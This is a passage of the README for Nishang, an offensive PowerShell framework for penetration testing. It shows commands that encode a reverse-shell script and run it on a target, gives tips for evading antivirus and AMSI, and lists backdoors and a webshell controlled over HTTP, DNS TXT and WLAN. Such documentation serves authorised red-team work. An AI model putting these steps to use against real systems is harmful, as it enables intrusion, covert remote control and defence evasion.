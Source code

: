 Encode the scrript using Invoke-Encode from Nishang:

```powershell
PS C:\nishang> . \nishang\Utility\Invoke-Encode

PS C:\nishang> Invoke-Encode -DataToEncode C:\nishang\Shells\Invoke-PowerShellTcp.ps1 -OutCommand
```

Encoded data written to .\encoded.txt

Encoded command written to .\encodedcommand.txt

From above, use the encoded script from encodedcommand.txt and run it on a target where commands could be executed (a remote shell, meterpreter native shell, a web shell etc.). Use it like below:

```powershell
C:\Users\target> powershell -e [encodedscript]
```

If the scripts still get detected changing the function and parameter names and removing the help content will help.

In case Windows 10's AMSI is still blocking script execution, see this blog: http://www.labofapenetrationtester.com/2016/09/amsi.html

#### Scripts
Nishang currently contains the following scripts and payloads.

#### ActiveDirectory
[Set-DCShadowPermissions](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)

Modify AD objects to provide minimal permissions required for DCShadow.

#### Antak - the Webshell
[Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)

Execute PowerShell scripts in memory, run commands, and download and upload files using this webshell.

#### Backdoors
[HTTP-Backdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/HTTP-Backdoor.ps1)

A backdoor which can receive instructions from third party websites and execute PowerShell scripts in memory.

[DNS_TXT_Pwnage](https://github.com/samratashok/nishang/blob/master/Backdoors/DNS_TXT_Pwnage.ps1)

A backdoor which can receive commands and PowerShell scripts from DNS TXT queries, execute them on a target, and be remotely controlled using the queries.

[Execute-OnTime](https://github.com/samratashok/nishang/blob/master/Backdoors/Execute-OnTime.ps1)

A backdoor which can execute PowerShell scripts at a given time on a target.

[Gupt-Backdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Gupt-Backdoor.ps1)

A backdoor which can receive commands and scripts from a WLAN SSID without connecting to it. 

[Add-ScrnSaveBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Add-ScrnSaveBackdoor.ps1)
